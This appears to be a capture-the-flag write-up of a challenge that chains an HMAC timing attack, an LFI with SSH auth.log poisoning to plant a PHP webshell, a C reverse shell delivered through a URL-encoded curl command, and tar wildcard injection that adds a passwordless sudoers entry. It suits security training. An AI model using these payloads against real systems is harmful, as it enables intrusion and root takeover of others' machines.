









# The Hearth of the Gearford Write-Up

<p align="justify">This challenge was a MISC one, in which the server machine must have been rooted to read the flag. To do so authentication mecanism source code was provided and is attached in this repo under cryptoAuth/... . The challenge was made of 3 parts: </p>

- Step 1 : Get an admin access (token signed with HMAC), attacking the authentication mecanism
- Step 2 : Get a RCE (and a webshell) on the admin panel using log poisoning method
- Step 3 : Get a revshell and perform a privesc to read the flag located in /root/flag.txt, leveraging wildcard injection method

<p align="center">

</p>

<h2> Step 1 : Time based attack on rust server </h2>

<p align="justify">Once on the page of the challenge, a message was redirecting on the /auth route so that the client could have received his token authentication computed and signed by a rust authentication server. By default all clients were authenticated as Guest as shown in the snippet below : </p>

<p align="center">

</p>

<p align="justify">Actually, those tokens were signed with HMAC authentication algorithm. As show in the snipper below, token was composed of two parts; the first one which is the plaintext payload containing username and role, and the second one which was the authentication tag computed for the plaintext payload using the following function : </p>

````rust
pub fn receive_token(key: &[u8], plaintext_token: &[u8], authentication_tag: &[u8]) -> bool {
    let mut mac = Hmac::<Sha256>::new(key.into()); //format conversion
    mac.update(plaintext_token);
    let computed_tag = mac.finalize().into_bytes();
    verify(&computed_tag, authentication_tag)  
}
````
<p align="justify"> Looking at the rust files, it appeared that the actual verify() function of rust HMAC crypto libs had been overwritten by the following function, which was vulnerable to timing attack because of token verification which wasn't made in constant time. Indeed each token bytes of the token authentication tag were compared byte to byte and as early as a matching byte was detected, the function was entering sleeping mod for 10 ms, which was actually very helpful to realize timing attack : </p>
    
````rust
pub fn verify(expected: &[u8], received: &[u8]) -> bool {
    if expected.len() != received.len() {
        return false;
    }
    for (a, b) in expected.iter().zip(received.iter()) {
        if a != b {
            return false;
        }
        println!("Byte is valid.");
        thread::sleep(time::Duration::from_millis(10)); //longer check to make bruteforce attacks harder
    }
    true
}
````
<p align="justify"> Hence, in order to retreive a valid token, authentication tag must have been retreived using time reponse when submitting a token to /auth and triggering verify() function. A python script is available in this repository under HMAC_timeattack.py, to perfom the exploit localy. Unfortunately because of too much latency over VLANs, this part of the challenge has been neutralized and the admin access granted for everybody, since it was too hard to retreive all authentication bytes using time responses from the server. </p>

<p align="justify"> Running the server localy (it means with no latency in the response) it was possible to retreive the token, and then access the admin panel. Below is an example of token for 'guest' username with admin role you could have retreived with a local time attack : </p>

<p align="center">

</p>

<h2> Step 2 : RCE & Webshell on the admin panel using log poisoning exploit</h2>

<p align="justify">Once logged on in the admin panel using the admin token, it seemed that panel was kind of administrative panel coded in php, offering various features including : </p>

- Overview of auth.log file
- Load of other log file such as access log
- Text field and notes upload
- Log line visualization
- Enumeration of ssh users whom failed to log in on the server machine

<p align="justify">For this step and this part of the chall, no source code was provided and it was kind of blackbox part. Nonetheless in the load feature, an LFI was easily exploitable and allowed extract php source code as shown in the snippet below : </p>

````php
// load file feature
        function load_external_log($logfile = '') {
            return isset($logfile) && !empty($logfile) ? include($logfile) : "No file specified.";
        }
````
<p align="justify">At this point it was interesting because this weakness in the php (which wasn't sanitizing inputs) also allowed to use php wrappers, for instance base64 encode/decode which revealed useful for the exploit. Below is a POC with index.php file: </p>

<p align="center">

</p>

<p align="justify">Actually to perform a log poisoning as expected to get a webshell, there were 2 main possibilities : poison access.log file and load it or poison auth.log. Regarding access.log it was harder to exploit it than auth.log; because once the file was poisoned it was impossible to control it nor re write it nor clear it, and a php injection in it was quickly disturbing page rendering. For auth.log it was way simple because as shown in the snippet below, the ssh users whom failed to log in on the machine were extracted amoung the 20 last lines and stored in a file named userloginfail.txt in the directory of the server, which suggested that port 22 was opened (confirmed by a nmap scan). Besides, the panel provided a button to clear it which all boils down to a way to control this file by an attacker. 

<p align="center">

</p>

Hence the scheme of the exploit to get a webshell properly rendered on the page was the following one : </p>

- Clear userloginfail.txt
- Poison auth.log file with a webshell encoded in base64 and used as a ssh user to attempt to connect remotely on port 22
- Verify that the base64 payload doesn't contain any / to avoid truncation and is well stored as ssh user in userloginfail.txt
- Render poison userloginfail.txt containing base64 payload using the load feature of the panel and using a php wrapper to decode it
- Execute commands and validate that the input is welled printed into the ad hoc section

````bash
ssh V0VCU0hFTExPSyA8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4=@localhost
#and then curl
#http://ip/HiddenAdministrativeControlPanel.php?load=php%3A%2F%2Ffilter%2Fconvert.base64-decode%2Fresource%3Duserloginfail.txt&cmd=id
````
<p align="center">

</p>
    
<h2> Step 3: Launch a revshell to get a stable prompt and perform a privesc to read the flag </h2>

<p align="justify"> Once the webshell was deployed and commands could have been run on the machine, the final step was to laucnh a revshell to get a stable prompt to finally escalate privileges an read the flag. To do so, the solution was to use libc because netcat was missing and it was a docker so no /dev/tcp folder too. To get a revshell the payload must have been url encoded and sent to server. The payload below can write the reverse shell available under revshell.c in this repo, in the /tmp folder :</p>

````bash
curl -b "session_token=eyd1c2VybmFtZSc6J2d1ZXN0JywgJ3JvbGUnOidhZG1pbid9./3b1GSdZghQ6flLq0yEjz5fDtnXbRcBItrm20FCyAoI=" http://ip/HiddenAdministrativeControlPanel.php?load=php%3A%2F%2Ffilter%2Fconvert.base64-decode%2Fresource%3Duserloginfail.txt&cmd=echo%20%27%23include%20%3Cstdio.h%3E%0A%23include%20%3Csys%2Fsocket.h%3E%0A%23include%20%3Cnetinet%2Fin.h%3E%0A%23include%20%3Carpa%2Finet.h%3E%0A%23include%20%3Cstring.h%3E%0A%23include%20%3Cunistd.h%3E%0A%0A%23define%20IP%20%22127.0.0.1%22%0A%23define%20PORT%2014456%0A%0Aint%20main%28%29%0A%7B%0A%20%20%20%20int%20sockfd%20%3D%20socket%28AF_INET%2C%20SOCK_STREAM%2C%200%29%3B%0A%0A%20%20%20%20struct%20sockaddr_in%20server_addr%3B%0A%20%20%20%20server_addr.sin_family%20%3D%20AF_INET%3B%0A%20%20%20%20server_addr.sin_port%20%3D%20htons%28PORT%29%3B%0A%0A%20%20%20%20inet_pton%28AF_INET%2C%20IP%2C%20%26%28server_addr.sin_addr%29%29%3B%0A%0A%20%20%20%20connect%28sockfd%2C%20%28struct%20sockaddr%20%2A%29%26server_addr%2C%20sizeof%28server_addr%29%29%3B%0A%0A%20%20%20%20dup2%28sockfd%2C%200%29%3B%0A%20%20%20%20dup2%28sockfd%2C%201%29%3B%0A%20%20%20%20dup2%28sockfd%2C%202%29%3B%0A%0A%20%20%20%20execve%28%22%2Fbin%2Fsh%22%2C%200%2C%200%29%3B%0A%0A%20%20%20%20close%28sockfd%29%3B%0A%0A%20%20%20%20return%200%3B%0A%7D%27%20%3E%20%2Ftmp%2Frev2.c%09
````

<p align="justify">After that, the c reverse shell needed to be compiled, to be granted execution right and then to be laucnhed. To do so easily, it was possible to use a bash script that executed those commands and to load it and start it on the machine to get the revshell connection : </p>

````bash
gcc -o /tmp/revshell /tmp/revshell.c
chmod +x /tmp/revshell
/tmp/revshell
#then a curl as in the previous command to load it, to grant it execution right and then lauchn it
````
<p align="justify">If no error happended during compilation a revshell might have been received on the listening port opened :</p>

<p align="center">

</p>

<p align="justify">At this step the challenge was solved at 90%, the very last step was to find a way to escalate privileges to read the flag. To do so, no SUID or weak permissions/capabilities but an interesting crontab in charge of backup /home/user directory and which was run as root. Besided right were granted to adm group, in which user www-data was inlcuded : </p>

<p align="center">

</p>

<p align="justify">Indeed, this crontab was vulnerable to an exploit named wildcard injection; perfectly explained by Ley0x in his blog : <a href="https://blog.ley0x.me/posts/linux-wildcard-injection">Doc here.</a> Actually the binary tar uses flags while running, which can be leveraged to execute arbitrary script, and when tar runs as root, it means that command could be potentialy run as root:</p>

 ````bash
#tar flags
 --checkpoint[=N]
            Display progress messages every Nth record (default 10).
--checkpoint-action=ACTION
            Run ACTION on each checkpoint.
````

<p align="justify">Here, the previous tar flags mentioned before revealed useful insofar as their permitted to define a script to run with tar. The following commands could have been run to execute the attack and get a foothold in sudoers users : </p>

````bash
echo "echo 'www-data  ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers" > /home/user/evil.sh
chmod +x /home/user/evil.sh
cd /home/user
echo "" > --checkpoint=1
echo "" > "--checkpoint-action=exec=sh evil.sh"
````

<p align="justify">Finaly after a few minutes the crontab ran, and because of the * user in the backup task; malicious flag ended up included in the command line of the task and the evil.sh script ran. As result it provided a passwordless sudoers user account and after that it was possible to read the flag prefixing cat with sudo : </p>

<p align="center">

</p>

FLAG : _HACKDAY{T1m3_B4s3d_4tt4ck_+_L0g_P01s0n_+_W1ldC4rd_1nj3ct10n_=_Pwn3d!!!}_

